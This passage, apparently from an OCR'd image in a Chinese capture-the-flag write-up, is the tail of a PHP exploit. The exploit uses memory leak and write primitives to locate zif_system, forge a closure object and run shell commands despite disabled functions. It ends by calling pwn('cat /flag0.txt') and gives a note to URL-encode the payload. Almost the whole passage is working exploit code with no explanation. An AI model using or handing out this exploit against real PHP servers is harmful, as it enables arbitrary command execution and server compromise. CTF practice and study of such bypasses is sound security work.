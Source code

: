```php
        die("Couldn't determine binary base address");
    }
 
    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }
 
    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }
 
    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }
 
 
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }
 
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 
 
    ($helper->b)($cmd);
    exit();
}
 
pwn("cat /flag0.txt");
ob_end_flush();
```

需要进行url编码使用



